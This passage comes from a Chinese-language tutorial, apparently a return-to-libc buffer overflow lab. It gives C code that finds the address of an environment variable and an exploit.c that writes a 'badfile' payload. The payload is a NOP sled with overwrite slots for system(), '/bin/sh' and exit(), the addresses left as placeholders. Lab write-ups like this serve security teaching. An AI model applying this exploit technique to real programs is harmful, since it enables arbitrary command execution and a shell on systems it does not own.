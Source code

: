 我们还需要用到一个读取环境变量的程序：

```
/* getenvaddr.c */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char const *argv[])
{
 char *ptr;

 if(argc < 3){
    printf("Usage: %s <environment var> <target program name>\n", argv[0]);
    exit(0);
    }
 ptr = getenv(argv[1]);
 ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
 printf("%s will be at %p\n", argv[1], ptr);
 return 0;
}
```

编译一下：

```
gcc -m32 -o getenvaddr getenvaddr.c
```

####3.3 攻击程序

把以下代码保存为“exploit.c”文件，保存到 /tmp 目录下。代码如下：

```
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
 char buf[40];
 FILE *badfile;
 badfile = fopen(".//badfile", "w");
 
 strcpy(buf, "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90");// nop 24 times
  
 *(long *) &buf[32] =0x11111111; // "//bin//sh"
 *(long *) &buf[24] =0x22222222; // system()
 *(long *) &buf[36] =0x33333333; // exit()
 fwrite(buf, sizeof(buf), 1, badfile);
 fclose(badfile);
}
```
